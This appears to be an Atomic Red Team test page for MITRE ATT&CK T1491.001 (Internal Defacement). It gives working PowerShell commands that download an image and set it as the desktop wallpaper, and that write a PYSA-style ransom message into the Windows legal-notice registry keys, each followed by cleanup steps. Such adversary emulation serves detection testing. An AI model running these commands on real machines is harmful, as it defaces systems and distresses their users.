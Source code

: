 # T1491.001 - Defacement: Internal Defacement
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1491/001)
<blockquote>An adversary may deface systems internal to an organization in an attempt to intimidate or mislead users, thus discrediting the integrity of the systems. This may take the form of modifications to internal websites, or directly to user systems with the replacement of the desktop wallpaper.(Citation: Novetta Blockbuster) Disturbing or offensive images may be used as a part of [Internal Defacement](https://attack.mitre.org/techniques/T1491/001) in order to cause user discomfort, or to pressure compliance with accompanying messages. Since internally defacing systems exposes an adversary's presence, it often takes place after other intrusion goals have been accomplished.(Citation: Novetta Blockbuster Destructive Malware)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Replace Desktop Wallpaper](#atomic-test-1---replace-desktop-wallpaper)

- [Atomic Test #2 - Configure LegalNoticeCaption and LegalNoticeText registry keys to display ransom message](#atomic-test-2---configure-legalnoticecaption-and-legalnoticetext-registry-keys-to-display-ransom-message)


<br/>

## Atomic Test #1 - Replace Desktop Wallpaper
Downloads an image from a URL and sets it as the desktop wallpaper.

**Supported Platforms:** Windows


**auto_generated_guid:** 30558d53-9d76-41c4-9267-a7bd5184bed3





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| url_of_wallpaper | URL pointing to the image file you wish to set as wallpaper | url | https://redcanary.com/wp-content/uploads/Atomic-Red-Team-Logo.png|
| pointer_to_orginal_wallpaper | Full path to where a file containing the original wallpaper location will be saved | string | $env:TEMP&#92;T1491.001-OrginalWallpaperLocation|
| wallpaper_location | Full path to where the downloaded wallpaper image will be saved | string | $env:TEMP&#92;T1491.001-newWallpaper.png|


#### Attack Commands: Run with `powershell`! 


```powershell
$url = "#{url_of_wallpaper}"
$imgLocation = "#{wallpaper_location}"
$orgWallpaper = (Get-ItemProperty -Path Registry::'HKEY_CURRENT_USER\Control Panel\Desktop\' -Name WallPaper).WallPaper
$orgWallpaper | Out-File -FilePath "#{pointer_to_orginal_wallpaper}"
$updateWallpapercode = @' 
using System.Runtime.InteropServices; 
namespace Win32{

    public class Wallpaper{ 
        [DllImport("user32.dll", CharSet=CharSet.Auto)] 
         static extern int SystemParametersInfo (int uAction , int uParam , string lpvParam , int fuWinIni) ; 
         
         public static void SetWallpaper(string thePath){ 
            SystemParametersInfo(20,0,thePath,3); 
        }
    }
} 
'@
$wc = New-Object System.Net.WebClient  
try{  
    $wc.DownloadFile($url, $imgLocation)
    add-type $updateWallpapercode 
    [Win32.Wallpaper]::SetWallpaper($imgLocation)
} 
catch [System.Net.WebException]{  
    Write-Host("Cannot download $url") 
    add-type $updateWallpapercode 
    [Win32.Wallpaper]::SetWallpaper($imgLocation)
} 
finally{    
    $wc.Dispose()  
}
```

#### Cleanup Commands:
```powershell
$updateWallpapercode = @' 
using System.Runtime.InteropServices; 
namespace Win32{

    public class Wallpaper{ 
        [DllImport("user32.dll", CharSet=CharSet.Auto)] 
         static extern int SystemParametersInfo (int uAction , int uParam , string lpvParam , int fuWinIni) ; 
         
         public static void SetWallpaper(string thePath){ 
            SystemParametersInfo(20,0,thePath,3); 
        }
    }
} 
'@
if (Test-Path -Path #{pointer_to_orginal_wallpaper} -PathType Leaf) {
     $orgImg = Get-Content -Path "#{pointer_to_orginal_wallpaper}"
     add-type $updateWallpapercode 
     [Win32.Wallpaper]::SetWallpaper($orgImg)
}
Remove-Item "#{pointer_to_orginal_wallpaper}" -ErrorAction Ignore
Remove-Item "#{wallpaper_location}" -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #2 - Configure LegalNoticeCaption and LegalNoticeText registry keys to display ransom message
Display ransom message to users at system start-up by configuring registry keys HKLM\SOFTWARE\Micosoft\Windows\CurrentVersion\Policies\System\LegalNoticeCaption and HKLM\SOFTWARE\Micosoft\Windows\CurrentVersion\Policies\System\LegalNoticeText.

[SynAck Ransomware](https://www.trendmicro.com/vinfo/es/security/news/cybercrime-and-digital-threats/synack-ransomware-leverages-process-doppelg-nging-for-evasion-and-infection), 
[Grief Ransomware](https://redcanary.com/blog/grief-ransomware/), 
[Maze Ransomware](https://cyware.com/research-and-analysis/maze-ransomware-a-deadly-combination-of-data-theft-and-encryption-to-target-us-organizations-8f27),
[Pysa Ransomware](https://www.cybereason.com/blog/research/threat-analysis-report-inside-the-destructive-pysa-ransomware),
[Spook Ransomware](https://community.fortinet.com/t5/FortiEDR/Threat-Coverage-How-FortiEDR-protects-against-Spook-Ransomware/ta-p/204226),
[DopplePaymer Ransomware](https://www.microsoft.com/en-us/wdsi/threats/malware-encyclopedia-description?Name=Ransom:Win32/Dopplepaymer&threatId=-2147221958),
[Reedemer Ransomware](https://blog.cyble.com/2022/07/20/redeemer-ransomware-back-action/),
[Kangaroo Ransomware](https://www.bleepingcomputer.com/news/security/the-kangaroo-ransomware-not-only-encrypts-your-data-but-tries-to-lock-you-out-of-windows/)

**Supported Platforms:** Windows


**auto_generated_guid:** ffcbfaab-c9ff-470b-928c-f086b326089b





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| legal_notice_caption | Title of ransom message | string | PYSA|
| legal_notice_text | Body of ransom message | string | Hi Company, every byte on any types of your devices was encrypted. Don't try to use backups because it were encrypted too. To get all your data contact us:xxxx@onionmail.org|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
$orgLegalNoticeCaption = (Get-ItemProperty HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System -Name LegalNoticeCaption).LegalNoticeCaption
$orgLegalNoticeText = (Get-ItemProperty HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System -Name LegalNoticeText).LegalNoticeText
$newLegalNoticeCaption = "#{legal_notice_caption}"
$newLegalNoticeText = "#{legal_notice_text}"
Set-ItemProperty HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System -Name LegalNoticeCaption -Value $newLegalNoticeCaption -Type String -Force
Set-ItemProperty HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System -Name LegalNoticeText -Value $newLegalNoticeText -Type String -Force
```

#### Cleanup Commands:
```powershell
Set-ItemProperty HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System -Name LegalNoticeCaption -Value $orgLegalNoticeCaption -Type String -Force
Set-ItemProperty HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System -Name LegalNoticeText -Value $orgLegalNoticeText -Type String -Force
```





<br/>
